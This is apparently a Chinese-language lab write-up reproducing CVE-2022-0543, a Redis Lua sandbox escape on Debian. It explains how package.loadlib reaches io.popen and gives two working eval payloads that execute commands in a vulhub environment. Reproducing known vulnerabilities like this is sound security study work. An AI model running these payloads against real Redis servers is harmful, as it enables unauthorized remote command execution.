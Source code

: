 # 0x01 原理浅析
Debian及其衍生版打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象中的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0中的导出函数luaopen_io，执行这个导出函数获得io库，最后使用其执行命令，作者提到不同系统下liblua5.1.so.0的路径可能不同，所以需要在本地对照一下，，，吐槽一句，不能打红帽系有点鸡肋了......

# 0x02 先决条件
01 未授权访问或拿到账号密码  
02 目标为Debian及其衍生版  

# 0x03 漏洞复现
使用p牛的vulhub搭建环境：https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
搭建好的环境是redis 5.0.7，且存在未授权访问  
执行如下payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![image](./pic/01.png)  

# 0x04 参考文章
https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  
https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  